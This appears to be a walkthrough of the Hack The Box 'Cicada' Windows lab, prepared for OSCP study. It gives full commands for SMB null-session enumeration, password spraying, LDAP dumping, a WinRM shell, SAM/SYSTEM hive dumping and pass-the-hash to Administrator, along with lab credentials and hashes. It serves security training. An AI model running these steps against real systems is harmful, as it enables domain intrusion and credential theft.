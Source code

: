 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

```bash
# fast full-port + default scripts
sudo nmap -sC -sV -p- 10.129.198.41 -oA nmap/cicada

# check null‑session SMB shares
nxc smb 10.129.198.41 -u guest -p '' --shares
```

- **SMB** (445) – null‑session allows listing `HR` share
- **Kerberos** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
   ```bash
   smbclient //10.129.198.41/HR -U guest
   smb: \> get "Notice from HR.txt"
   ```
2. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
3. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.129.198.41 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
4. **Password spray** against user list  
   ```bash
   nxc smb 10.129.198.41 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
   ```
   → **michael.wrightson** authenticated ✅

5. **LDAP dump** with valid creds  
   ```bash
   ldapdomaindump -u cicada.htb\\michael.wrightson \
     -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.198.41 -o ldapdump
   ```
6. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
   ```bash
   smbclient //10.129.198.41/DEV -U david.orelious
   smb: \> get Backup_script.ps1
   ```
2. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
3. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.129.198.41 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
4. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
   ```powershell
   whoami /priv
   # SeBackupPrivilege          Enabled
   # SeRestorePrivilege         Enabled
   ```
2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.129.198.41 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt
   # => 84702***********************
   ```

---

## 🎉 Results

- **User flag**: `d333d*********************`  
- **Root flag**: `84702***********************`  

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  

✌️ Happy hacking!